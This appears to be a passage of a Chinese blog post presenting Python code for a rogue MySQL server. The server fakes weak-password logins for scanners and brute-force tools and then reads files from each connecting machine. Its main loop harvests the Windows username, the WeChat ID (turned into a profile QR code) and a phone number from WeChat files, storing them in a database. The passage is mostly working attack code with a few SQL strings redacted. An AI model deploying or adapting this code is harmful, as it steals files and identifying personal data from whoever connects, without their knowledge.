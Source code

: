 ```bash
                        f.write(content)
                        f.close()
                    return (True,content)
                else:
                    return (False,content)
            except Exception as e:
                print (e)
    except Exception as e:
        print (e)
```

这段代码主要有两个作用：

判断是否为扫描器或者密码爆破工具，进行交互握手，效果是扫描器直接爆3306弱口令。

如果是直接连接，去读取设定好的文件，并写入本地保存。

PS：为了防止读取文件内容不完整，加入了while循环。

```yml
while True:
        conn, address = sv.accept()
        first_time = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        global files1
        global username
        global wx_id
        file=files1[0].replace('Administrator',username).replace('wx_id',wx_id)
        res,content = mysql_get_file_content(file,conn,address)
        files1.append(files1[0])
        files1.remove(files1[0])
        if res:
            if 'PFRO' in file:
                username = get_username(content)
                s= "xx" % (xx)
                cursor.execute(s)
                data = cursor.fetchall()
                if len(data)==0:
                    s = "XX" % (xx)
                    cursor.execute(s)
                    db.commit()
                    print 'success:'+ file
                    insert_file(file,address,username)
            elif 'config.data'in file:
                content = content
                wxid = re.findall(r'WeChatFiles\\(.*)\\config', content)[0]
                sql = "xxx" % (xxx)
                cursor.execute(sql)
                db.commit()
                wx_id=wxid
                img = qrcode.make('weixin://contacts/profile/'+wxid)
                img.save(os.path.abspath('.')+'/static/pic/'+wxid+'.png') 
                print 'success:'+ file
                insert_file(file,address,username)
            elif 'AccInfo' in file:
                content = content
                phone = re.findall(r'[0-9]{11}', content)[-1]
                sql = "xxx" % (xxx)
                cursor.execute(sql)
                db.commit()
                print 'success:'+ file
                insert_file(file,address,username)
        else:
            files1=files
            username='Administrator'
```
